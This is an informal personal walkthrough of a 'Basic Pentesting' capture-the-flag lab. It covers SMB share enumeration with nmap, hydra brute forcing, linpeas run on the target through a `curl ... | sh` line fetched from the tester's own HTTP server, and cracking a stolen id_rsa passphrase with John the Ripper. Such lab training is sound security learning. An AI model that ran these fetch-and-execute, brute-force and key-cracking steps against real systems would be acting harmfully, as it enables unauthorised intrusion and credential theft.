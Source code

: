 # Basic Pentesting

- In these set of tasks you'll learn the following:

    1. brute forcing 
    2. hash cracking 
    3. service enumeration
    4. Linux Enumeration
    

```
export IP=10.10.27.13
```

- I deployed the machine and then and then i wielded my magic wand like grand wizard.(did nmap scan...LOL!). Man all the servers running on the ports are foreign to me. Like i have to go research every single one of them.

- Lots of services run on the machine but the one that locked eyes with me is the smb shares running on the machine. Lemme just connect and see how it goes. This is the first time I am dealing with smb shares.
Looking around the interwebz for something to exploit on the smb share i found this wonderful command 
```
nmap -sV --script=smb-enum-shares -p445 $IP

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                               
Service Info: Host: BASIC2

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.154.135\Anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.154.135\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba Server 4.3.11-Ubuntu)
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

```

- I did the directory scans and found some directory `/development` with some coversations in it. It gives some clues about insecure passwords or something like that.
So now its only left with what i'm going to do. Something tells me i have to do some password bruteforce or something close to that.
I connected to the smb share on the machine and then looked around, i found some other message meant for all the users of the shares. I got the message and got the username of the users on the server.

- I am having touble using hydra, I dont even know how it works in the first place.
i found the password for one of the users using hydra bruteforcing tool and the password is `armando`


- I sshed into the system, spun a simple `python2 -m SimpleHTTPServer 9999` in the directory i have `linpeas.sh` at. Went into the remote server and executed `curl <my-ip-addr>:<port>/linpeas.sh | sh`
This shit run smoothly and run linpeas on the server. Man, i have the id_rsa of the other user too. Bingo lets go and escalate this MF!. but first lemme go google how to copy text in a tmux session.

- okay the id_rsa file has a passpharase or something creepy prevent me from using it hahaha :).
JohnTheRipper to the rescue. LOL! 

-  I was having troubles using johntheripper on my laptop so i installed kali on my bros laptop and here i am :).

- The password is `beeswax`. Kali is good man. LOL!.John the ripper did that really swiftly.

I got into the ssh server and as the other user and got password. It was a backup file.

